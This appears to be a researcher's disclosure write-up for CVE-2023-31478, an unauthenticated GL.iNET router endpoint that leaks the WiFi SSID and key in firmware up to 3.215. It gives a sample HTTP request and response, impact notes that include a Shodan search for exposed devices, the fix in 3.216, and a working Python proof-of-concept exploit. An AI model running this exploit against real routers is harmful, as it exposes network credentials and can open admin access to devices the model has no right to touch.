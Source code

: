 ```yaml
---
title: 'CVE-2023-31478: GL.iNET SSID Key Disclosure'
date: 2023-05-18 00:00:05
tags: 
- security-research
- web
- iot
---
```


# [CVE-2023-31478](https://nvd.nist.gov/vuln/detail/CVE-2023-31478): GL.iNET SSID Key Disclosure
* **CVSS Score** - 8.3, High ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L))
* **Overview** - An API endpoint for all GL.iNET devices reveals information about the WiFi configuration, including SSID and key. This endpoint can be accessed without any sort of authentication (although the [4.x firmware documentation](https://dev.gl-inet.com/api/#api-router-GetRouterMeshState) claims authentication is required). Affects versions <= 3.215. Example request and response below:

```
POST /api/router/mesh/status HTTP/1.1
Host: 192.168.8.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 4

mac=

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 143
Connection: close
Date: Thu, 29 Dec 2022 21:51:13 GMT
Server: lighttpd/1.4.48

{"del":"0","led":"1","led_sync":"0","wifi_sync":"0","ssid":"GL-XE300-343","key":"goodlife","encryption":"psk2","version":"3.214","code":0}
```

* **Description** - The endpoint `/api/router/mesh/status` is not listed in the front-end of the web GUI for all GL.iNET devices
* **Steps to reproduce** - run the Proof of Concept in the **PoC** section below using `python3 exploit.py <domain/IP>`, such as `python3 exploit.py 192.168.8.1`. Information will be returned such as `{'del': '0', 'led': '1', 'led_sync': '0', 'disabled': '2G', 'wifi_sync': '0', 'ssid': 'GL-XE300-343', 'key': 'goodlife', 'encryption': 'psk2', 'version': '3.215', 'code': 0}`
* **Impact**
    * Since this exploit isn't very useful in default configurations for GL.iNET devices, a section on impact is needed. By default (on the device I've looked at), firewall rules block anything coming from the WAN side, meaning the only way to access the Web GUI is to already be on the LAN, which means the SSID key is already known. 
    * However, this exploit is still relevant in non-standard configurations, such as ones where access to the Web GUI is enabled without having to be on the LAN (such as opening up the WAN firewall). This may allow an attacker to connect to the internal LAN. 
    * In addition, the SSID key may be related to (or the same as) the admin password for the Web GUI. In this case, sending a simple request would give you admin access to the router. 
    * Note that [a search on Shodan](https://www.shodan.io/search?query=ssl%3A%22gl-inet%22) gives over 1000 results, which means that (as of January 2023) there are at least **1000 vulnerable GL.iNET routers** available from anyone around the world, with many more in other scenarios.

## Fix
This was fixed in version 3.216 by removing the `/api/router/mesh/status` endpoint from the list of unauthenticated endpoints.

# PoC
```python
import requests, sys
import warnings
warnings.filterwarnings("ignore")


## Get arguments
if (len(sys.argv) < 2):
    print("Usage: python3 exploit.py <domain/IP>")
    sys.exit(1)

url = sys.argv[1]


## Send request
data = "mac="
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
response = requests.request("POST", "https://"+url+"/api/router/mesh/status", verify=False, timeout=4, data=data, headers=headers)


## Check response
try:
    json = response.json()
    if json["code"] == -1:
        print("[-] Machine not vulnerable")
    else:
        print(json)
except:
    print("[-] Machine not vulnerable, error was encountered")
```
